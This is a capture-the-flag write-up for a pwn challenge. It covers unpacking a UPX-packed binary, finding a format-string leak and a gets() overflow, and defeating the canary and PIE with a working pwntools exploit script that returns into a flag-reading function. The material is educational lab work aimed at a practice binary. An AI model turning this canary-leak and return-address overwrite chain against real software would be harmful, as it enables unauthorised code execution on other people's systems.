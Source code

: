 ```yaml
---
title: Interesting
categories: Binary Exploitation
tags: 
completedDuringEvent: true
submitted: true
flag: p_ctf{!_am_v3ry_!nt3r3st1ng_!nd33d}
draft: true
---
```

First, let's check the binary.

```sh
$ file challenge/chal
challenge/chal: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), statically linked, no section header

$ strings challenge/chal
...
PROT_EXEC|PROT_WRITE failed.
_j<X
$Info: This file is packed with the UPX executable packer http://upx.sf.net $
$Id: UPX 4.24 Copyright (C) 1996-2024 the UPX Team. All Rights Reserved. $
_RPWQM)
j"AZR^j
...
UPX!
UPX!
```

After checking the strings, we can see that the binary is packed with **UPX**. Let's unpack the binary.

```pwsh
$ .\upx.exe -d chal -o chal.unpack
```

Now let's check the unpacked binary protections.

```sh
$ file challenge/chal.unpack 
challenge/chal.unpack: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d7d336a6fb868f08d310d402fd06fe7f7ce2a22c, for GNU/Linux 3.2.0, not stripped
$ pwn checksec challenge/chal.unpack
[*] '/home/ztz/projects/ctf/writeups/2025/pragyan/pwn/interesting/challenge/chal.unpack'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    FORTIFY:    Enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

The binary is not stripped, and it has all the protections enabled. Where the binary is `Canary` enabled, `NX` enabled, `PIE` enabled, and `Full RELRO` enabled. Where `Canary` is enabled, we need to leak the canary to exploit the buffer overflow vulnerability. `PIE` is enabled, so we need to leak the address to calculate the base address of the binary. Let's check the main function.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  puts(
    "########  ########     ###     ######   ##    ##    ###    ##    ## \n"
    "##     ## ##     ##   ## ##   ##    ##   ##  ##    ## ##   ###   ## \n"
    "##     ## ##     ##  ##   ##  ##          ####    ##   ##  ####  ## \n"
    "########  ########  ##     ## ##   ####    ##    ##     ## ## ## ## \n"
    "##        ##   ##   ######### ##    ##     ##    ######### ##  #### \n"
    "##        ##    ##  ##     ## ##    ##     ##    ##     ## ##   ### \n"
    "##        ##     ## ##     ##  ######      ##    ##     ## ##    ## \n"
    "\n");
  puts("Hey there! Welcome to the challenge");
  puts("The rules are simple! Say something interesting, and I will give you the flag.");
  if ( (unsigned int)fun() == 7 )
    puts("Nah! You are boring");
  return 0;
}
```

The main function calls the `fun` function.

```c
__int64 fun()
{
  __int64 v1; // [rsp+0h] [rbp-128h] BYREF
  char s[248]; // [rsp+20h] [rbp-108h] BYREF
  unsigned __int64 v3; // [rsp+118h] [rbp-10h]

  v3 = __readfsqword(0x28u);
  fgets(s, 230, stdin);
  __printf_chk(1LL, "You said: ");
  __printf_chk(1LL, s);                         // Format String
  puts("Do you really think that's interesting?");
  gets(&v1);                                    // Buffer Overflow
  return 7LL;
}
```

The `fun` function has a format string vulnerability and a buffer overflow vulnerability. The format string vulnerability is in the `printf` function, and the buffer overflow vulnerability is in the `gets` function. Let's check the `interesting` function.

```c
unsigned __int64 interesting()
{
  FILE *v0; // rax
  FILE *v1; // rbp
  char v3[264]; // [rsp+0h] [rbp-128h] BYREF
  unsigned __int64 v4; // [rsp+108h] [rbp-20h]

  v4 = __readfsqword(0x28u);
  puts("Yeah, that's interesting");
  v0 = fopen("flag.txt", "r");
  if ( !v0 )
  {
    perror("Error opening file, Contact Admin");
    exit(1);
  }
  v1 = v0;
  if ( fgets(v3, 256, v0) )
    __printf_chk(1LL, "%s", v3);
  fclose(v1);
  return v4 - __readfsqword(0x28u);
}
```

The `interesting` function opens the `flag.txt` file and prints the content of the file. The `interesting` function is the function that we need to return to get the flag.

Because the binary is `Canary` enabled, we need to leak the canary to exploit the buffer overflow vulnerability. Let's check the format string vulnerability. We can use `gdb` to set a breakpoint after `gets` function and send the format string payload to leak the canary.

![alt text](image.png)

`%p.` is used to leak the canary. We can see that the canary is leaked at index 43.

![alt text](image-1.png)

After leaking the canary, we can use the `canary` command to print the canary. So the canary is `0xfbe0nn390be78400`. Now let's check the canary in format string payload.

![alt text](image-2.png)

The canary is at index 43. Now let's check the address leak. We can use the format string vulnerability to leak the address of the main function.

Disassemble address from the leak `0x555555555180` we can see that the address of the main function.

![alt text](image-3.png)

Because `PIE` is enabled, and we found the address of the main function, we can calculate the base address of the binary. `0x555555555180 - 0x1180` is the base address of the binary.

![alt text](image-4.png)

So the canaries is at index 43 and the main function is at index 47 at address leak.

Now let's write the exploit script.

```c
__int64 v1; // [rsp+0h] [rbp-128h] BYREF
char s[248]; // [rsp+20h] [rbp-108h] BYREF
unsigned __int64 v3; // [rsp+118h] [rbp-10h]
```

`rbp-128h` is the buffer for the gets function, and `rbp-108h` is the buffer for the fgets function. So `0x128 - 0x10` is the offset to the canary.

![alt text](image-5.png)

So the offset to the canary is `0x118`. Now let's write the exploit script.

```py
from pwn import *

binary = './challenge/chal.unpack'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('interesting.ctf.prgy.in', 1337, ssl=True)

r.recvuntil(b"give you the flag.\n")
r.sendline(b"%p." * 50)
leaks = r.recvline().decode().split(".")

pie_leak = int(leaks[47], 16) # Main function address from pie
e.address = pie_leak - 0x1180
log.success(f"Binary Base Address: {hex(e.address)}")

interesting_addr = e.symbols["interesting"] + 8 # +8, idk why too, local works without it
log.success(f"Interesting() Address: {hex(interesting_addr)}")

canary = int(leaks[43], 16)
log.success(f"Canary: {hex(canary)}")

payload = cyclic(280)
payload += p64(canary)            # Canary
payload += cyclic(8)              # RBP
payload += p64(interesting_addr)  # Return to interesting() function

r.recvuntil(b"Do you really think that's interesting?\n")
r.sendline(payload)

r.interactive()
```
